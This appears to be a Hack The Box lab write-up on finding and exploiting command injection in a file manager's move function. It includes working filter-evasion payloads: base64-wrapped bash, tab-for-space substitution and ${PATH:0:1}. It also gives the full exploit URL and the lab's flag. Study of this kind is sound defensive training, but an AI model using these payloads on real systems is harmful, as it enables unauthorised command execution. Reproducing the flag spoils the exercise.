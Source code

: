 ﻿You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.


![Pasted image 20250205145850.png](../../../IMAGES/Pasted%20image%2020250205145850.png)

## Reconnaissance
---

Once we've authenticated, we can see the following:

![Pasted image 20250205145916.png](../../../IMAGES/Pasted%20image%2020250205145916.png)

We got a lot of functions in this page, being:

```ad-summary
1. Direct Link
2. Preview
3. Copy to
4. Download
```

After checking each of them, I found the following in the `Copy to` function:

![Pasted image 20250205150700.png](../../../IMAGES/Pasted%20image%2020250205150700.png)

We have a `Copy` and `Move` function in this page, they go by the following parameters:

Copy:
```
/index.php?to=&from=51459716.txt&finish=1
```

Move:

```
/index.php?to=&from=51459716.txt&finish=1&move=1 
```

In the move URL, if we modify the to value to empty, we can see the following:

![Pasted image 20250205153325.png](../../../IMAGES/Pasted%20image%2020250205153325.png)

Which means, it could be vulnerable to command injection, let's try sending a simple payload like:

```
/index.php?to=&from=51459716.txt;uname&finish=1&move=1
```

We will see the following:

![Pasted image 20250205153433.png](../../../IMAGES/Pasted%20image%2020250205153433.png)

This is indeed vulnerable to command injection, let's craft our payload to read the flag.

## Exploitation
---

Commands like `cat`, `mv` and `ls` are blocked, we need to bypass them using what we've learned in this module, let's do the following payload:

```
%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)
```

```ad-important
#### Breakdown
---
### **1. URL Decoding First**

- `%7C%7C` â†’`||` (double pipe operator in Linux).
 
- `%09` â†’ Tab character (used to replace spaces).
 

Decoded payload:


`||bash<<<$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`


---

### **2. Command Structure**

- **`||`**: Execute the second command **regardless** of whether the first command (`mv`, in the original app) succeeds or fails.
 
- **`bash<<<`**: Pass the following string as input to`bash` for execution.
 

---

### **3. Decoding the Base64 String**

The inner command is:

`$(base64 -d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)`

- **`base64 -d`**: Decodes a Base64-encoded string.
 
- **`<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK`**: Passes the Base64 string to`base64 -d`.
 

**Decoding the Base64**:


`echo "Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK" | base64 -d`

**Result**:

`cat ${PATH:0:1}flag.txt`

---

### **4. Breaking Down the Final Command**

The decoded command is:

`cat ${PATH:0:1}flag.txt`

- **`${PATH:0:1}`**: Extracts the first character of the`PATH` environment variable (which is`/`).
 
 - Example: If`PATH=/usr/local/bin:/usr/bin`,`${PATH:0:1}` â†’`/`.
 
- **Result**:`cat /flag.txt`.
 

---

### **5. Why Use These Techniques?**

- **`||`**: Bypasses command injection filters by executing regardless of the first command's success.
 
- **`base64`**: Obfuscates the command to bypass keyword filters (e.g.,`cat`,`/`).
 
- **`${PATH:0:1}`**: Avoids using`/` directly (common blacklisted character).
 
- **`%09` (tab)**: Replaces spaces to bypass space filters.
 

---

### **Full Payload Flow**

1. The app runs`mv [file] [to]`.
 
2. The payload injects`||bash<<<$(base64 -d<<<...)`.
 
3. The Base64 string decodes to`cat /flag.txt`.
 
4. `bash` executes the decoded command, printing the flag.
```

If we needed to look around for the flag, we'd need to use more payloads, since this is not needed, we can simply use this one.

So, let's send it like this:

```
http://94.237.54.42:31196/index.php?to=%7C%7Cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQK)&from=51459716.txt&finish=1&move=1
```

We will see the following output:

![Pasted image 20250205153914.png](../../../IMAGES/Pasted%20image%2020250205153914.png)

Flag is `HTB{c0mm4nd3r_1nj3c70r}`

![Pasted image 20250205154011.png](../../../IMAGES/Pasted%20image%2020250205154011.png)

